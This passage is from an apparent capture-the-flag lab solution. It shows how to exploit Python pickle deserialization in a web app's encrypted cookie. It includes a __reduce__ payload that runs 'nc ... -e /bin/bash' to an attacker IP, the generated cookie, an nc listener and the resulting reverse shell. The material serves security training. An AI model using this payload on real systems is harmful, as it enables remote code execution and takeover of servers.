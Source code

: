```shell
class RCE():
        def __reduce__(self):
                return os.system, ("nc -nv 10.10.14.162 9001 -e /bin/bash",)

notes = {"Title":"","Text":"","Date":RCE()}

s = pickle.dumps(notes)
e = encryptAES(s).encrypt()
print(e)
> EOF
```

Subsequently, students need to run the scrip to attain the cookie:

Code: shell

```shell
python3 generateCookie.py
```

```shell
┌─[eu-academy-1]─[10.10.14.162]─[htb-ac413848@htb-qmmsulophr]─[~/htbrain-src]
└──╼ [★]$ python3 generateCookie.py

Z0FBQUFBQmpkaFM1U3hTV0taYTltUWlKTGNCUlh4OGtjTjJhaTB1UlhJSXZ0QWktNTU1QVgwelducEZ1M1Q4bzZhSFVBblJUM2s5NVl1QlMtNkp5WUI5WE45Z3BOLXFMTXdVQWwtb2stcDZxbWdBZ0l2VEtvMno2Z20wMnJQQ3BjaVpDcm12NnE2T1RTUHRCaHprUHctSnZMX2ZGcnU4VUJ3Znl0TlROeF9pZ25SNlA5eWJkbWRTQkxESVVVT2oyM2tKVkZxN2NwTktSZ2RmbEVBTW5YN2s0V0lXQTk0T3NGUT09
```

Before utilizing the cookie, students need to start an `nc` listener with the same port that was specified in the overridden `__reduce__` function (9001 in here):

Code: shell

```shell
nc -nvlp PWNPO
```

```shell
┌─[eu-academy-1]─[10.10.14.162]─[htb-ac413848@htb-qmmsulophr]─[~/htbrain-src]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

Thereafter, students need to go back to the web application on port 8001, replace the cookie value with the one generated by the script, and then refresh the page, to notice that the reverse shell connection has been successfully established in the `nc` listener:

![[HTB Solutions/CWEE/z. images/16784cf04cffc26e6e3a5177894d3473_MD5.jpg]]

```shell
Ncat: Connection from 10.129.204.98.
Ncat: Connection from 10.129.204.98:42110.
whoami

htbrain
```
